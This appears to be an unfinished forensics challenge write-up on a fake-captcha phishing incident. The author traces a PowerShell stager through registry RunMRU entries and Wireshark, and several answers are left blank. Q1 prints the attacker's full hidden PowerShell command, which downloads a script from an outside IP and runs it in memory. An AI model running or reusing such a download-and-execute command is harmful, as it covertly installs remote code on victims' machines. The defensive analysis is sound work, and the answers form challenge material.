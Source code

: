 
##### Sherlock Scenario

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.


Q1: It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

A: powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"

We go to the hive of the indicated user.

![](../../Img/Pasted%20image%2020250513152918.png)

Load it and go to bookmark.
Under RunMRU we find it.

![](../../Img/Pasted%20image%2020250513153145.png)

Q2: At what time in UTC did the malicious payload execute?

A: 2024-09-23 05:07:45

In the Q1 screenshot.

Q3: The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

A: 

To get the hash i need the file, to get the file we use wireshark to open the pcapng file and search.
One of the only 2 things that i have is the ip, so we use as filter.
Looking through the packets we spot the 2nd thing that we know, the file name.

![](../../Img/Pasted%20image%2020250513153952.png)



Q4: To which port did the reverse shell connect?

A: 

Q5: For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

A: 

Q6: Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

A: 
